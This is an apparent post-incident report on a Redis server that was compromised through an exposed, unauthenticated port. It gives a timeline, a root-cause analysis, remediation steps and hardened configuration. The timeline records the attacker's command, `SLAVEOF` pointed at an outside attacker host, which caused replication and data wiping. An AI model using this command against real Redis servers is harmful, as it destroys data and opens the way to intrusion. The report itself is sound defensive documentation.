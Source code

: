 # Security Incident Report - 2025-07-18

## Executive Summary
On July 18, 2025 at 16:57 UTC, the Redis database was compromised by an external attacker who exploited an exposed, unauthenticated Redis port. All data including certificates, proxy configurations, and routes were exfiltrated and deleted.

## Incident Timeline
- **16:57:43 UTC** - Attacker from IP `106.12.35.113` (China) connected to exposed Redis port 6379
- **16:57:43 UTC** - Executed `SLAVEOF 39.105.136.204:60120` making Redis replicate to attacker's server
- **16:57:43-49 UTC** - Multiple replication attempts, each flushing all local data
- **16:57:49 UTC** - Attacker executed `SLAVEOF NO ONE` to restore master mode and cover tracks
- **18:00:00 UTC** - Incident discovered during routine testing

## Root Cause Analysis
1. **Why did it fail?** - Redis was compromised and all data deleted
2. **Why did that condition exist?** - Redis port 6379 was exposed to the internet
3. **Why was it allowed?** - docker-compose.yml had `ports: - "0.0.0.0:6379->6379/tcp"`
4. **Why wasn't it caught?** - No authentication was configured on Redis
5. **Why will it never happen again?** - Redis is now internal-only with strong authentication

## Impact
- **Data Lost**: All certificates, proxy configurations, routes, tokens
- **Services Affected**: Certificate manager functionality reset to blank state
- **Security**: Attacker had full Redis access for ~6 seconds
- **Recovery**: Manual recreation of all configurations required

## Remediation Actions Taken
1. **Immediate** (18:05 UTC)
   - Removed public port exposure from docker-compose.yml
   - Added Redis authentication with strong password
   - Created redis.conf with security hardening
   - Disabled dangerous Redis commands (FLUSHDB, SLAVEOF, etc.)
   - Restarted all containers with secure configuration

2. **Security Improvements**
   - Redis now only accessible within Docker network
   - Authentication required for all Redis operations
   - Protected mode enabled
   - Dangerous commands disabled

## Lessons Learned
1. **NEVER** expose database ports to the internet
2. **ALWAYS** use authentication on all services
3. **DEFAULT** to internal-only networking
4. Monitor for suspicious connections
5. Regular security audits of docker-compose configurations

## Recommendations
1. Implement Redis ACLs for fine-grained access control
2. Set up fail2ban or similar intrusion detection
3. Enable Redis command logging
4. Regular backups of Redis data
5. Network segmentation with firewall rules
6. Consider Redis Enterprise with built-in security features

## Configuration Changes

### Before (INSECURE)
```yaml
redis:
  ports:
    - "0.0.0.0:6379->6379/tcp"  # EXPOSED TO INTERNET!
  command: redis-server --appendonly yes
```

### After (SECURE)
```yaml
redis:
  # ports: REMOVED - Internal only
  volumes:
    - ./redis.conf:/usr/local/etc/redis/redis.conf:ro
  command: redis-server /usr/local/etc/redis/redis.conf --requirepass ${REDIS_PASSWORD}
```

## Attacker Information
- **Primary IP**: 106.12.35.113 (Alibaba Cloud, China)
- **Secondary IP**: 39.105.136.204 (Alibaba Cloud, China)
- **Method**: Redis replication attack (SLAVEOF command)
- **Duration**: ~6 seconds of active compromise

## Status
- **Incident**: Resolved
- **Security**: Hardened
- **Data**: Lost (requires manual recreation)
- **Monitoring**: To be implemented

---
Generated: 2025-07-18 18:10 UTC